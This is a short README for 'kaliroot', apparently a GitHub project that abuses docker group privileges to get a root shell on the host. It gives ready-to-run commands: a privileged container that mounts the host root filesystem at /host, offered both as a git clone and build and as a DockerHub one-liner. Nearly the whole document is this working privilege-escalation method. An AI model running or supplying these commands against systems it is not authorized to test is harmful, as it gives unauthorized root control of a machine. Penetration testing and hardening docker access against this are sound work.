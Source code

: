 # kaliroot

Abuses `docker` group privileges to gain a root level shell into the main operating system.

Exit the chroot shell, and you now have access to any Kali tools you need, and access the host root filesystem at `/host`.

## Install via Git

```sh
git clone https://github.com/phx/kaliroot
cd kaliroot
docker build -t kaliroot .
docker run --privileged --network host -itv /:/host kaliroot
```

## Install via DockerHub:
`docker run --privileged -itv /:/host lphxl/kaliroot`

